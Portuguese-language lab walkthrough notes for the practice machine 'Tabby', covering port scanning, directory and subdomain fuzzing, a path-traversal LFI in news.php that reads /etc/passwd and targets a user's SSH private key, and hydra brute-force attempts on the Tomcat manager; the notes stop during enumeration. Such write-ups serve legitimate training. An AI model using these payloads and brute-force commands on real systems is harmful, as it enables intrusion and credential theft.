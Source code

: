 Tabby
========================

## Enumeração

Como sempre, começamos com nmap:

    sudo nmap_enum tabby.htb
    


    
    sudo nmap -sS -p- -T5 --max-retries 0 -Pn tabby.htb

![qownnotes-media-GjOlwH](../../../media/qownnotes-media-GjOlwH.png)

    
    
    sudo nmap -sU -p 53,111,113,161,500,2049 tabby.htb
    
![qownnotes-media-ylsJza](../../../media/qownnotes-media-ylsJza.png)


### Enumeração HTTP (80)

Enumeração via URL brute force

    feroxbuster -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --extract-links -u http://megahosting.com


![qownnotes-media-qcEEoW](../../../media/qownnotes-media-qcEEoW.png)


Enumeração de subdomínio

    ffuf -u http://megahosting.htb -H "Host: FUZZ.megahosting.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fs 14175

![qownnotes-media-YJKfuc](../../../media/qownnotes-media-YJKfuc.png)

**Esse seria nosso entry point**

Nessa URL eu achei um LFI:

    firefox http://megahosting.htb/news.php?file=../../../../../etc/passwd

![qownnotes-media-FBVCcv](../../../media/qownnotes-media-FBVCcv.png)

Wordlists testadas:

    /usr/share/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest-huge.txt

Payloads testados:


    ../../../../../../../../home/ash/.ssh/id_rsa
    

### Enumeração HTTP (8080)

Interface de gerenciamento

![qownnotes-media-gEdPBQ](../../../media/qownnotes-media-gEdPBQ.png)


Brute Force

    hydra -C /usr/share/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt megahosting.htb -s 8080 http-get /manager/html

Versão utilizada:

![qownnotes-media-naGuhN](../../../media/qownnotes-media-naGuhN.png)

    hydra -l ash -P tomcat_passwords.txt megahosting.htb -s 8080 http-get /manager/html

![qownnotes-media-WHsZoh](../../../media/qownnotes-media-WHsZoh.png)

Testando com extensões

    ffuf -c -ic -u http://megahosting.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -e ".txt,.php,.html"

Novamente um brute force com wordlist custom

    cewl --with-numbers -m 3 http://megahosting.htb > usernames.txt
    cewl --with-numbers -m 3 http://megahosting.htb > passwords.txt

    hydra -l ash -P passwords.txt megahosting.htb -s 8080 http-get /manager/html

URL Brute force:

    ffuf -c -ic -u http://megahosting.com:8080/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -e ".txt,.php,.html"
    
![qownnotes-media-wzGAjI](../../../media/qownnotes-media-wzGAjI.png)
